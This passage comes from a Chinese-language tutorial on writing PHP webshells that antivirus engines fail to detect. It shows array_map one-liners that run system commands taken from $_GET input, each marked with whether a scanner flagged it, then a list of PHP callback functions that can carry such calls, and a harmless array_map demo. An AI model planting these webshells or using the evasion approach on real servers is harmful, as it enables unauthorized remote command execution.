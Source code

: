 得到回显：

```plain
Array
(
    [num1] => 1
    [num2] => 2
)
```

## 1# 回调类型函数

### 1.0 Tips

在 PHP 的 WebSehll 免杀测试过程中，使用回调函数可以发现查杀引擎对函数和函数的参数是否有对应的敏感性

```plain
array_map('system', array('whoami'));        //被查杀
array_map($_GET['a'], array('whoami'));      //被查杀
array_map('var_dump', array('whoami'));      //未被查杀
array_map('system', array($_GET['a']));      //被查杀
```

这里在列举一些回调函数，感兴趣可以自行查找：

```plain
array_filter() 
array_walk()  
array_map()
array_reduce()
array_walk_recursive()
call_user_func_array()
call_user_func()
filter_var() 
filter_var_array() 
registregister_shutdown_function()
register_tick_function()
forward_static_call_array()
uasort() 
uksort()
```

### 1.1 array\_map()

**`array_map()` 函数将用户自定义函数作用到数组中的每个值上，并返回用户自定义函数作用后的带有新的值的数组**

Demo：将函数作用到数组中的每个值上，每个值都乘以本身，并返回带有新的值的数组：

```plain
function myfunction($v)
{
return($v*$v);
}

$a=array(1,2,3,4,5);    //array(1,4,9,16,25)
print_r(array_map("myfunction",$a));
```

